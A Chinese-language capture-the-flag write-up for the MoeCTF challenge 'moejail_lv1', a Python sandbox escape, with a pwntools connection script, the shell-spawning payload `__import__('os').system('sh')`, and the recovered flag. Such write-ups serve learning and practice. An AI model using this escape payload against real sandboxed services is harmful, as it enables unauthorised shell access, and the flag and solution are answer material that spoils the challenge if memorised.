 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
comments: true
---  
```


# Misc-9｜moejail_lv1

## 复盘感想

这是一个全新的 Misc 题型：沙箱逃逸，需要从一个看似难以逃脱的程序中跳出来进入对方终端获取信息
***
## Writeup

使用脚本直接打过去（当然也可以不用脚本直接手动完成，这可能是个非预期），完成字符串连接的题目进入 payload 环节：

```python
from pwn import *

server_ip = '127.0.0.1'
server_port = 49871

connection = remote(server_ip, server_port)

received_data = connection.recv().decode('utf-8')
send_data = received_data[-32:-26] + received_data[-23:-17]

print(received_data)

connection.sendline(send_data.encode('utf-8'))
connection.interactive()
connection.close()
```

对于这类题目，我们直接执行攻入终端代码：`__import__('os').system('sh')`，命令行 `ls` 即可发现文件信息：

![](../../../../assets/Pasted%20image%2020241025234220.png)

经过一番寻找，发现有关 flag 位置的文件：

![](../../../../assets/Pasted%20image%2020241025234240.png)
![](../../../../assets/Pasted%20image%2020241025234616.png)

不知道为什么直接 cat 打不开文件，但是命令行通配符就可以打开（通配符即用 * 省略后面长长一串），即可得到 flag : `moectf{Ah-H@_NOW_y0U-Kn0w-h0W_to-ESCapE_5IMPI3-5TR1NG-Fi1ter0}`

![[Pasted image 20241025234325.png]]
